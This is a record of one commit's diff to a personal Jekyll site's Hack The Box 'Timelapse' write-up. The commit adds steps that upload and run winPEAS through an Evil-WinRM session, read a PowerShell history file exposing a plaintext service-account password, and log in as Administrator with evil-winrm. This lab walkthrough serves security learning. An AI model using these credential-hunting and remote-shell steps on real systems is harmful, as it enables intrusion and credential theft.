

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/htb/timelapse.md, in a window 1280 px wide and 1400 px high, scrolled down 8015 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 8926 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update timelapse.md

````diff
--- a/_pages/htb/timelapse.md
+++ b/_pages/htb/timelapse.md
@@ -313,31 +313,61 @@ SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
 
 <br>
 
-I used winPEAS
+I used winPEAS - when the exe's don't work you can use the .bat
 
 ```
-[connor@fedora timelapse]$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20220612/winPEASx86.exe
+[connor@fedora timelapse]$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20220612/winPEAS.bat
 ```
 
 <br>
 
 ```
-*Evil-WinRM* PS C:\Users\legacyy\Documents> upload winPEASx86.exe
-Info: Uploading winPEASx86.exe to C:\Users\legacyy\Documents\winPEASx86.exe
+*Evil-WinRM* PS C:\Users\legacyy\Documents> upload winPEAS.bat
+Info: Uploading winPEAS.bat to C:\Users\legacyy\Documents\winPEAS.bat
 
 Enter PEM pass phrase:
 
-Data: 2582528 bytes of 2582528 bytes copied
+Data: 47928 bytes of 47928 bytes copied
 
 Info: Upload successful!
 
+*Evil-WinRM* PS C:\Users\legacyy\Documents> ./winPEAS.bat userinfo
 ```
 
 <br>
 
+Here's an extract from the output:
 
+<br>
 
-cat C:/Users/legacyy/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
+```
+Checking PS history file
+ Volume in drive C has no label.
+ Volume Serial Number is 22CC-AE66
+
+ Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
+
+03/04/2022  12:46 AM               434 ConsoleHost_history.txt
+               1 File(s)            434 bytes
+               0 Dir(s)   9,944,387,584 bytes free
+```
+
+There are creds in the file:
+
+```
+*Evil-WinRM* PS C:\Users\legacyy\Documents> cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
+Enter PEM pass phrase:
+whoami
+ipconfig /all
+netstat -ano |select-string LIST
+$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
+$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
+$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
+invoke-command -computername localhost -credential $c -port 5986 -usessl -
+SessionOption $so -scriptblock {whoami}
+get-aduser -filter * -properties *
+exit
+```
 
 
 evil-winrm -u 'Administrator' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i 10.10.11.152  -S
````
